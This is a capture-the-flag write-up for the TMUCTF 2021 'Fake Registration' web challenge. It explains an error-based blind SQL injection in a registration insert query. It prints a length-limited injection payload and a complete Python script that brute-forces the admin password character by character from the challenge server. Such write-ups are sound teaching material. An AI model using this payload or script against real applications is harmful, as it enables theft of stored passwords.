

# Challenge Description
<p align="center">
  
</p>
<br>

# Writeup
In this challenge, we are given a registration page with the [server-side code](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Web/Fake%20Registration/Challenge%20Files/challenge.zip).
Open the `app.py` file. We see that the flag is the admin password.
In addition, the username and password entered by a user is stored in the database with an `insert` query.
Since this query is not written securely, it is possible to inject SQL commands through it.
As can be seen in the code, the length of each of the username and password fields is limited to 67.
Given this limitation, we try to obtain the correct payloads to extract information from the database.
The following payload, in addition to meeting the length limit, can help us to extract the admin password:
```
',(SELECT 1 FROM users WHERE id=1 AND substr(password,1,1)='T'))--
```
By entering this payload in the username field, the following message will be displayed to us:
<p align="center">
  
</p>

As shown in this figure, the `UNIQUE constraint failed: users.username` error is shown.
So the character 'T' is the correct value of the first character of the admin password. 
If we run the above payload with any other character, the `NOT NULL constraint failed: users.password` error is displayed, which indicates that the character is incorrect (the character leads to an empty value for the password field).
Therefore, this payload can be run for different characters and finally, the admin password, which is the flag, is obtained.
The complete script for solving the challenge is as follows (also available in [solve.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Web/Fake%20Registration/Writeup%20Files/solve.py)).
```python
import requests

flag = []
for i in range(1, 69):
    for j in range(32, 127):
        payload = f"',(SELECT 1 FROM users WHERE id=1 AND substr(password,{str(i)},1)='{chr(j)}'))--"
        response = requests.post("http://130.185.123.246/register", data = {"username": payload, "password": "test"}, verify=False)
        if ("UNIQUE" in response.text):
            flag.append(chr(j))
            print(chr(j))
print("flag:", ''.join(flag))
```
The flag:
```
TMUCTF{P455w0rd5_mu57_b3_l0n6_4nd_c0mpl3x_l1k3_2MWn&p#FmjShTZXfAg:)}
```
